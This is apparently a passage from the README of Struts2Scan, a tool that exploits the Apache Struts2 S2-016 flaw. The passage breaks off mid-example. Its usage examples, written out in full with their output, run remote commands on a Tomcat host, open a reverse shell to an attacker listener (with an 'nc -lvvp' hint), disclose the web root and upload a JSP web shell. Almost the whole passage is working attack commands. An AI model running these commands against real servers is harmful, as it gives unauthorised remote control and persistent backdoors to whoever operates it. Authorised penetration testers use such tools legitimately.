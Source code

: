 指定漏洞扫描  
```
# 命令执行
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --exec

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

>>>ls -la
total 136
drwxr-sr-x 1 root staff  4096 May  5  2017 .
drwxrwsr-x 1 root staff  4096 May  5  2017 ..
-rw-r----- 1 root root  57092 Apr 13  2017 LICENSE
-rw-r----- 1 root root   1723 Apr 13  2017 NOTICE
-rw-r----- 1 root root   7064 Apr 13  2017 RELEASE-NOTES
-rw-r----- 1 root root  15946 Apr 13  2017 RUNNING.txt
drwxr-x--- 1 root root   4096 May  5  2017 bin
drwx--S--- 1 root root   4096 Jul 12 14:54 conf
drwxr-sr-x 3 root staff  4096 May  5  2017 include
drwxr-x--- 2 root root   4096 May  5  2017 lib
drwxr-x--- 1 root root   4096 Jul 12 14:54 logs
drwxr-sr-x 3 root staff  4096 May  5  2017 native-jni-lib
drwxr-x--- 2 root root   4096 May  5  2017 temp
drwxr-x--- 1 root root   4096 Jul 12 14:54 webapps
drwxr-x--- 1 root root   4096 Jul 12 14:54 work
>>>

# 反弹shll
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --reverse 192.168.100.8:8888

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[*] 请在反弹地址处监听端口如: nc -lvvp 8080

# 获取WEB路径
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --webpath

 ____  _              _       ____    ____                  
/ ___|| |_ _ __ _   _| |_ ___|___ \  / ___|  ___ __ _ _ __  
\___ \| __| '__| | | | __/ __| __) | \___ \ / __/ _` | '_ \ 
 ___) | |_| |  | |_| | |_\__ \/ __/   ___) | (_| (_| | | | |
|____/ \__|_|   \__,_|\__|___/_____| |____/ \___\__,_|_| |_|

                                      Author By HatBoy        

[*] /usr/local/tomcat/webapps/ROOT/

# 上传shell
$ python3 Struts2Scan.py -u http://192.168.100.8:8080/index.action -n S2-016 --upfile shell.jsp --uppath /usr/local/tomcat/webapps/ROOT/shell.jsp

 ____  _              _       ____    ____                  
```